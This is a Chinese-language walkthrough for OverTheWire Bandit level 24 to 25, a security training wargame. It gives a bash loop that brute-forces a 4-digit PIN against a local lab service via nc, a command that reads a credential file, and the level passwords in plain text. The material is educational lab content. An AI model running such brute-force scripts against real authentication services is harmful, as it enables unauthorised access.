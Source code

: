 # Bandit Level 24 → Level 25 攻略 🔢

## 关卡目标 🎯

本关卡的目标是编写一个脚本，通过暴力破解一个4位数字PIN码，将当前级别的密码和PIN码提交到本地主机的30002端口，以获取下一关的密码。

## 所需知识 📚

### 暴力破解 🔨

暴力破解是一种通过尝试所有可能的组合来找到正确答案的方法。在这个关卡中，我们需要尝试所有可能的4位数字PIN码（0000-9999）。

### Shell脚本循环 🔄

我们需要使用shell脚本的循环结构来生成所有可能的PIN码。

### 网络通信 🌐

我们需要使用网络工具（如`nc`）将密码和PIN码发送到指定的端口。

### 文件I/O和重定向 📄

我们需要使用文件I/O和重定向来处理大量的输出数据。

## 详细解题步骤 📝

### 1. 登录游戏服务器 🔐

使用上一关获得的密码登录服务器：

```bash
ssh bandit24@bandit.labs.overthewire.org -p 2220
```

密码：`UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ`

### 2. 获取当前级别的密码 🔑

我们需要知道当前级别（bandit24）的密码，以便发送给服务器：

```bash
cat /etc/bandit_pass/bandit24
```

输出结果应该显示bandit24的密码：

```
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

### 3. 测试服务器 🧪

首先，我们可以尝试连接到服务器，看看它的响应：

```bash
echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 1234" | nc localhost 30002
```

输出结果可能类似于：

```
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line separated by a space.
Wrong! Please enter the correct pincode. Try again.
```

这表明我们需要提供正确的密码和PIN码才能获取下一关的密码。

### 4. 创建临时目录 📂

我们需要创建一个临时目录来存储我们的脚本和输出文件：

```bash
mkdir -p /tmp/bandit24_to_25
cd /tmp/bandit24_to_25
```

### 5. 编写暴力破解脚本 📝

现在我们需要编写一个脚本，生成所有可能的PIN码并将它们与密码一起发送到服务器：

```bash
nano brute_force.sh
```

在编辑器中输入以下内容：

```bash
#!/bin/bash

password="UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"

# 生成所有可能的PIN码并将它们与密码一起保存到文件中
for pin in {0000..9999}; do
    echo "$password $pin"
done > pins.txt

# 将生成的密码和PIN码发送到服务器
cat pins.txt | nc localhost 30002 > output.txt

# 查找包含密码的行
grep -v "Wrong" output.txt
```

保存并退出编辑器（在nano中，按Ctrl+O保存，然后按Ctrl+X退出）。

### 6. 设置脚本权限 🔒

我们需要确保脚本具有执行权限：

```bash
chmod +x brute_force.sh
```

### 7. 执行脚本 🚀

现在我们可以执行脚本：

```bash
./brute_force.sh
```

脚本会生成所有可能的PIN码，将它们与密码一起发送到服务器，并将输出保存到`output.txt`文件中。这个过程可能需要一些时间。

### 8. 查看结果 🔍

脚本执行完成后，我们可以查看输出文件，找到包含密码的行：

```bash
cat output.txt | grep -v "Wrong"
```

输出结果应该包含下一关的密码：

```
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line separated by a space.
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
```

### 9. 优化方法（可选）🔄

上述方法可能需要较长时间执行。我们可以使用更高效的方法，例如将PIN码分批发送：

```bash
#!/bin/bash

password="UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"

# 创建一个临时文件
touch result.txt

# 分批生成PIN码并发送
for i in {0..9}; do
    for j in {0..9}; do
        for k in {0..9}; do
            for l in {0..9}; do
                echo "$password $i$j$k$l"
            done
        done
    done | nc localhost 30002 >> result.txt
done

# 查找包含密码的行
grep -v "Wrong" result.txt
```

这个脚本将PIN码分成多批发送，可能会更快地找到正确的PIN码。

## 命令解释 🔍

- `for pin in {0000..9999}; do echo "$password $pin"; done > pins.txt`：
  - `for pin in {0000..9999}; do ... done`：循环生成所有可能的4位数字PIN码
  - `echo "$password $pin"`：将密码和PIN码组合成一行
  - `> pins.txt`：将输出重定向到`pins.txt`文件
- `cat pins.txt | nc localhost 30002 > output.txt`：
  - `cat pins.txt`：读取`pins.txt`文件的内容
  - `|`：管道操作符，将前一个命令的输出作为后一个命令的输入
  - `nc localhost 30002`：使用netcat连接到本地主机的30002端口
  - `> output.txt`：将输出重定向到`output.txt`文件
- `grep -v "Wrong" output.txt`：
  - `grep`：搜索文本
  - `-v`：反向匹配，显示不包含指定模式的行
  - `"Wrong"`：要排除的模式
  - `output.txt`：要搜索的文件

## 学习要点总结 📌

1. **暴力破解基础** - 学习了如何使用暴力破解方法尝试所有可能的组合
2. **Shell脚本循环** - 了解了如何使用shell脚本的循环结构生成数据
3. **网络通信** - 学习了如何使用netcat与网络服务通信
4. **文件I/O和重定向** - 了解了如何使用文件I/O和重定向处理大量数据

## 提示 💡

- 暴力破解是一种最后手段的方法，通常效率较低，但在某些情况下是唯一的选择
- 在实际应用中，应该尽量避免使用暴力破解，因为它可能违反服务条款或法律
- 使用分批处理可以提高暴力破解的效率，但仍然需要较长时间
- 在处理大量数据时，使用文件而不是直接在终端显示可以提高效率

## 下一步 ⏭️

使用获得的密码登录到Level 25：

```bash
ssh bandit25@bandit.labs.overthewire.org -p 2220
```

密码：`uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG`

## 相关资源 🔗

- [Bash循环结构详解](https://www.gnu.org/software/bash/manual/html_node/Looping-Constructs.html)
- [Netcat (nc) 命令详解](https://www.geeksforgeeks.org/nc-command-in-linux-with-examples/)
- [Linux文件I/O和重定向](https://www.tutorialspoint.com/unix/unix-io-redirections.htm)
